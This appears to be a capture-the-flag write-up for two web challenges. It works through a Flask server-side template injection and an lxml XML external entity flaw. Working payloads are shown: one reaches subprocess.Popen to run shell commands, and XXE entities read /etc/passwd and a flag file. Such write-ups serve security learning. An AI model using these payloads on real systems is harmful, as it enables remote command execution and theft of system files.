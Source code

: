 * * *
![image](https://github.com/user-attachments/assets/744acab1-abef-48c8-babd-c61ed1646cc9)

* * *

### **Challenges**

### **Web**

-     Parrot the emu
-     Zoo feedback form
-     Co2
-     Confusion

---------------------------------

### Web

### Challenge: Parrot the emu

----------------------------------

![image](https://github.com/user-attachments/assets/8f1e8226-6491-4ec6-8705-30129f0adc5e)


- The index route `/` is the vulnerable part of the web app's code. The index page passes the `user_input` variable  to  the `render_template_string()` which is vulnerable to server side template injection in flask web apps' code.It allows an attacker to inject code into templaates.

      @app.route('/', methods=['GET', 'POST'])
      def vulnerable():
          chat_log = []
      
          if request.method == 'POST':
              user_input = request.form.get('user_input')
              try:
                  result = render_template_string(user_input)
              except Exception as e:
                  result = str(e)
      
              chat_log.append(('User', user_input))
              chat_log.append(('Emu', result))
          
          return render_template('index.html', chat_log=chat_log)

- Testing our little fact by executing \{\{7*7\}\},the server returned the value `49`

![image](https://github.com/user-attachments/assets/f30a52a9-2651-4f55-8e01-c577b0da806b)

### RCE

- I used the payload \{\{''.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()\}\} to access the classes available

![image](https://github.com/user-attachments/assets/a4b3b2a7-ca56-4dbd-812d-d42543db5721)

- After checking the list of available classes, I got shell command access with class `subprocess.Popen` on index `213`

       Payload: ''.__class__.__base__.__subclasses__()[213]

![image](https://github.com/user-attachments/assets/ce45878b-c7f2-4b2a-9005-6784a09b30a3)

### Reading the flag

- Flag payload

      Payload: ''.__class__.__base__.__subclasses__()[213]("cat flag",shell=True,stdout=-1).communicate()

![image](https://github.com/user-attachments/assets/9312e1e3-ace1-42cc-8fff-53d6714c7bda)

- Flag-:```DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}```

---------------------------------------

### Challenge: Zoo Feedback form

![image](https://github.com/user-attachments/assets/25cbd005-207a-423c-b2e1-9403eb6efbb7)

- After reviewing the source code, I noticed that `resolve_entities` was set to `True` which forces lxml parser to resolve external entities. In a whole, the main vulnerability is `XML External Entity Expansion` which allows an attacker to inject xml entities into a web application.

  Vulnerable Code:
            
            try:
               parser = etree.XMLParser(resolve_entities=True)

- Fix: Set resolve_entities to `False`

- I intercepted the request with burpsuite

   ![image](https://github.com/user-attachments/assets/4da48e9d-c2f3-42ca-92b1-aeb1e05ba5ac)

- I used this payload to read the `/etc/passwd` file

  Payload:

      <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
                  <root>
                 <feedback>
                  &example;
                 </feedback>
                  </root>

![image](https://github.com/user-attachments/assets/7451bb98-b2c6-47f4-8c3b-17f946a889f2)

- Then, I read the flag located at `/app/flag.txt`.

            <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/app/flag.txt"> ]>
                        <root>
                       <feedback>
                          &example;
                        </feedback>
                        </root>

![image](https://github.com/user-attachments/assets/ab20d730-43d0-48d2-99bd-f933e65dc8ee)

- Flag-:```DUCTF{emU_say$_he!!0_h0!@_ci@0}```

--------------------------
### References:
--------------------------

- Lxml.etree's XXE Attack: [Codeql's blog](https://codeql.github.com/codeql-query-help/python/py-xxe/)
- XXE's details: [Hacktrickz](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

